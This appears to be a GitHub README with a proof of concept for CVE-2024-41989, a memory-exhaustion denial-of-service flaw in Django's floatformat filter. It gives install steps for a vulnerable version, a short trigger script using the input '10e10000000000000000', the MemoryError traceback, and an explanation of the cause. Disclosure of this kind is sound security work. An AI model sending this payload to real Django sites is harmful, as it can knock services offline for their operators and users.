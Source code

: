 # CVE-2024-41989

## Description

A security issue was found in Django. If 'floatformat' received a string representation of a number in scientific notation with a large exponent, it could lead to significant memory consumption. To avoid this, decimals with more than 200 digits are now returned as is.

## Exploit

1. Install python and pip
2. Install Django 5.0 before 5.0.8 and 4.2 before 4.2.15 
   ```sh
   pip install Django==5.0
   ```
3. Create new python file, test with this script
    ```py
    from django.template.defaultfilters import *

    # A string representation of a number in scientific notation with a large exponent
    num = "10e10000000000000000"
    print("Run -> Error")
    floatformat(num)
    print("Done!")
    ```
4. Error return 
    ```sh
    Run -> Error
    Traceback (most recent call last):
    File "/home/frenda/code/hhack/test/test.py", line 6, in <module>
        floatformat(num)
    File "/home/frenda/.local/lib/python3.12/site-packages/django/template/defaultfilters.py", line 167, in floatformat
        m = int(d) - d
            ^^^^^^
    MemoryError
    ```

### Explain

- The line `m = int(d) - d` cause the issue. 
- The variable `d` is a `decimal.Decimal` object 
  - `d = Decimal(str(float(text)))`, casting from user input
  - Take a look at `.local/lib/python3.12/site-packages/django/template/defaultfilters.py`
- Casting `d` object to python `Decimal` is costly when the `text` contains scientific notation like `"10e10000000000000000"`
- The attacker can use that to cause a issue.

---

Fixed with latest Django version `5.1.2`